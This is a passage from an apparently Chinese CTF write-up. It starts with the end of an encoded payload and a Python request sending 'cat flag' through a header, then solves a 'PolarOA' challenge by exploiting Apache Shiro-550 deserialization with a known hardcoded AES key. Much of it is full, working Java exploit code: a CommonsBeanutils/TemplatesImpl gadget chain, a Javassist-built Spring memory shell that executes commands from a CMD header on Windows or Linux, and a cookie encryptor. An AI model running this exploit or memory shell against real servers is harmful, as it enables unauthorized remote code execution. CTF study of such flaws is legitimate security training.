$a8xSD$ba$a6$5ca$d2$f32$b1$7e$o$e5$de$7d$c5$7e$aeQM$ca$b2$f3$fb$aa$e2$z$bcM$7d$d7$d3c$M$92$ed$c6$yJL$c2$3b$w$de$c5$7b$w$de$c7y$S$O$ef$lT$f1$B$3e$a4$c9$89$eb$E$8b$a7$M$x$eeN$d2$b1$5dWq$B$l$RO$94$c53$z$g$e5$bc$8b$acg$98$f1$a4$aeY$96h$c5E$V$l$e3$T$V$9f$e23$J$9f$ab$b8$84$_D$c3$_$93$85$e3$3d$w$be$c4W$w$be$W$aeB$e3fV$Y$O$e9$a6mQ$d2$f5$f3$8c$9a$8a$x$f8$86$aePq$7e$Y$W$df$ed$8e$94$r$3c4$e9P$Vh$f0$f4$ac$e3p$cb$x$9e$h$a2$ad$89$3bQ4$ce$8dT$b6$c2D$e5$e7$pa$fb$r$8c$94$c1KDBg$5e$B$b5$c0$a4M$9eCm$8b$ce$bd$5cs$yv$f9m$xf$b1$7b$k$9d$d19$3a$ad$ff$f6VT$g$d6$b4$3dE$r$dd$Z$9d$fb$60$8c$cee$b5$ce$f7$ac$d4QL$7d$5c75$87$8f$Vc$abq$b9$d7$a3$eb$dcu$N$ff$b9$8b$k$Tod$e9$a4$9dq$3d$9e$f6$87$ff$90cg$b8$e3$9daX$fb$lu$b8$f5$eeT$7b$f6$91$M$v$f5j$e2$g$94w$eb$WH$WwP3$y$w$f0$d2R$c3$bd$93$9a$93$U7$c1$d2yW$eb1$C$8a$b6$fa$9d$a8$9f$db$c9$ae$e2$fc$e6Y$87$b3$96g$a4$8b$X$b5xh$yS$x$b0I1$c8g8$dd$8eht$9e$d7$b3T$83J$m$aaU$ee$aa$c0dX$40$ae$f6$5b$99$acG$9a$5c$a3$aa5$V$dd$Zv$bcD$40$ea$8b$a3$f3$KD$f5$d5$ac$cb$fb$b8i$a4$c5$7b$c1$b0$ee$ee$b5$$$bd$a8$o$J$8b$e6$9d$9aJQ$e4$9f$f3$nG$d3$v$e7$e6hkyVE$d1$5e$93$a7$e9$$u$a1$F$h$e87V$fcU$80$89$c7$9ch$9cNqZ$Z$ad$a1$b6k$60W$f3$e2$8dD$x$f3$cc$A$3a$88$aa$3e$A$9b$b0$99V$99$3e$O$K$ca$V$df$91$c9j$80$e9$b3$a8$c8$n$Q$O$e6$Q$3a$d0$W$ae$M$5c$87$94$83$9cX$cfhW$95$832P$AT$fb$A$b5$Ih$L$d7$U$b6$83$eb7$U$b0$9d$c1$f6$5b$dbPAo$B$e9$85k$7d$e8$c2$ce$ca$C$b7Np$c3A$e2$8e$E$c2$f5I$n$92$o$S$F$d1$Q$a9$f4i$qX$b4$qG$a4H$88$a0U$Em$q$a8$f2$p$ea$3b$ab$w$af$TU$c2$8bf$d1$94$c3$e2p$q$87$r$X$Q$8e$u$C$TQ$82$e1$a5$c9$x$a8$V$c7e$f9$e3r$a2$a1HU2$o$e7$b0$o$bc$b2$d4sD$f6$8d$ff$80$e6$91Y$b4D$94$iV$e5$b0$fa$g$ee$J$af$c9am$O$eb$84$d3a_3Z$c8$q$o$X$c2$x$f0$5b$e7$f0$af$a0$ea$40$5b$O$eb$87$af$8a$s$b0$Rv$9c$3ez$C$f9$W9X$96o$94J$df$5bM$d4$96$WjF$3b$U$ec$a0$96$f4$Sw$Q5$Y$c1$C$d8$a8$c59$y$a4$l$92$3a$9cG$Y$97$e9$cbk$W$N$b8$81F$fc$8cE$f8$95$b4$7fC$E$bfc$J$fe$m$9b$7fa9k$c5$K$d6$83$95l$E$ab$c8c3$3b$81$W$96$c2$ea$fc8$9c$r$db$w$h$c0Vl$a3S$T$db$83$ed$e4$93$Rb$Hv$a2$93$G$a8$97$zB$X$f1$C$Yd$d5$e8$s$5e$Q$p$U$fe$bd$b4$LQ$3c$7fb$XI$x$v$aa_p$l$ed$q$8a$v$87$dd$q$95$v$b2K$e8$c1$k$ca$e5$G$$R$k$7dP$c8$7b$I$7b$b1$8f$bc$ddO$ff$db$Q$bcI$BWK$e8$97$b0_$c2$DE$eao$fc$fd$B$J$J$a0$fa$sU$89$ca$sa$mD$R$O$e6$c7$fb$e0$3f$80$t$3d$99$e4$K$A$A"
        ]
    }
}

r3 = requests.post(url+"/admin;admin/api/GetClassValue",json=invoke_data,headers={"cmd":"cat flag"})
print(r3.text)
```

但是好像环境有问题？一直打内存马打不进去



# PolarOA

## #Shiro反序列化+长度限制

没有源代码，开个环境瞅瞅

是一个登录界面，抓个登录的包和忘记密码的包看看



发现响应包里面有一个`rememberMe=deleteMe;`的cookie，说明存在shiro框架

我们知道Shiro550是低版本Shiro的反序列化，其漏洞是因为cookie是固定密钥的AES加密，从而导致存在任意Cookie注入，那么就会导致反序列化漏洞，所以我们的第一步是要找到密钥

用shiro漏洞利用工具检测一下



确实存在Shiro框架，并且爆出了密钥`kPH+bIxk5D2deZiIxcaaaA==`，但是在进行爆破利用链的时候发现爆不出来，尝试手动构造一下CB无CC依赖的链

```java
package SerializeChains.Shiro;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.PriorityQueue;

public class shiro550_POC {
    public static void main(String[] args) throws Exception {
        //CC3
        byte[] bytes = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

        //CB&&add()方法
        BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue<Object>(2, comparator);
        queue.add(1);
        queue.add(2);
        setFieldValue(comparator, "property", "outputProperties");//修改property触发getter方法
        setFieldValue(queue,"queue",new Object[]{templates,templates});// 设置BeanComparator.compare()的参数
        setFieldValue(comparator, "comparator", String.CASE_INSENSITIVE_ORDER);
        //setFieldValue(comparator, "comparator", Collections.reverseOrder());

        OutputCookieWithKey(queue,"kPH+bIxk5D2deZiIxcaaaA==");
    }
    public static void OutputCookieWithKey(Object eval,String shiro_key) throws IOException{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(eval);
        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.getDecoder().decode(CodecSupport.toBytes(shiro_key));
        byte[] bytes = byteArrayOutputStream.toByteArray();

        ByteSource ciphertext;
        ciphertext = aes.encrypt(bytes, key);
        System.out.println(ciphertext);
    }
    public static Object getTemplates(byte[] bytes) throws Exception{
        Templates templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates, "_name", "wanth3f1ag");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```

反弹shell发现并没有成功，应该是没出网了

看了以下wp，这道题其实有一个长度限制，要求传入的字符长度要小于大约3500个字符，所以我们需要浓缩一下我们的poc

## 最终POC

用DynamicClassGenerator写一个短的内存马：

```java
package com.Utils;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.*;

import java.io.IOException;

public class DynamicClassGenerator {
    public CtClass genPayloadForWin() throws NotFoundException, CannotCompileException, IOException {
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("Exp");

        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addConstructor(CtNewConstructor.make("public SpringEcho() throws Exception {\n" +
                "            try {\n" +
                "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();\n" +
                "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();\n" +
                "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();\n" +
                "\n" +
                "                String te = httprequest.getHeader(\"Host\");\n" +
                "                httpresponse.addHeader(\"Host\", te);\n" +
                "                String tc = httprequest.getHeader(\"CMD\");\n" +
                "                if (tc != null && !tc.isEmpty()) {\n" +
                "                    String[] cmd = new String[]{\"cmd.exe\", \"/c\", tc};  \n" +
                "                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter(\"\\\\A\").next().getBytes();\n" +
                "                    httpresponse.getWriter().write(new String(result));\n" +
                "\n" +
                "                }\n" +
                "                httpresponse.getWriter().flush();\n" +
                "                httpresponse.getWriter().close();\n" +
                "            } catch (Exception e) {\n" +
                "                e.getStackTrace();\n" +
                "            }\n" +
                "        }", clazz));

        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz;
    }
    public CtClass genPayloadForLinux() throws NotFoundException, CannotCompileException {
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("Exp");

        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addConstructor(CtNewConstructor.make("public SpringEcho() throws Exception {\n" +
                "            try {\n" +
                "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();\n" +
                "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();\n" +
                "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();\n" +
                "\n" +
                "                String te = httprequest.getHeader(\"Host\");\n" +
                "                httpresponse.addHeader(\"Host\", te);\n" +
                "                String tc = httprequest.getHeader(\"CMD\");\n" +
                "                if (tc != null && !tc.isEmpty()) {\n" +
                "                    String[] cmd =  new String[]{\"/bin/sh\", \"-c\", tc};\n" +
                "                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter(\"\\\\A\").next().getBytes();\n" +
                "                    httpresponse.getWriter().write(new String(result));\n" +
                "\n" +
                "                }\n" +
                "                httpresponse.getWriter().flush();\n" +
                "                httpresponse.getWriter().close();\n" +
                "            }\n" +
                "        }", clazz));

        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz;
    }
}
```

打CB链

```java
package SerializeChains.Shiro;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class shiro550_POC {
    public static void main(String[] args) throws Exception {
        DynamicClassGenerator classGenerator =new DynamicClassGenerator();
        CtClass clz = classGenerator.genPayloadForLinux();
        TemplatesImpl templates = (TemplatesImpl) getTemplates(clz.toBytecode());

        //CB&&add()方法
        BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue<Object>(2, comparator);
        queue.add(1);
        queue.add(2);
        setFieldValue(comparator, "property", "outputProperties");//修改property触发getter方法
        setFieldValue(queue,"queue",new Object[]{templates,templates});// 设置BeanComparator.compare()的参数
        setFieldValue(comparator, "comparator", String.CASE_INSENSITIVE_ORDER);
        //setFieldValue(comparator, "comparator", Collections.reverseOrder());

        OutputCookieWithKey(queue,"kPH+bIxk5D2deZiIxcaaaA==");
    }
    public static void OutputCookieWithKey(Object eval,String shiro_key) throws IOException{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(eval);
        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.getDecoder().decode(CodecSupport.toBytes(shiro_key));
        byte[] bytes = byteArrayOutputStream.toByteArray();

        ByteSource ciphertext;
        ciphertext = aes.encrypt(bytes, key);
        System.out.println(ciphertext);
    }
    public static Object getTemplates(byte[] bytes) throws Exception{
        Templates templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates, "_name", "wanth3f1ag");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```

设置Cookie之后请求头RCE就行了

# PolarOA2.0
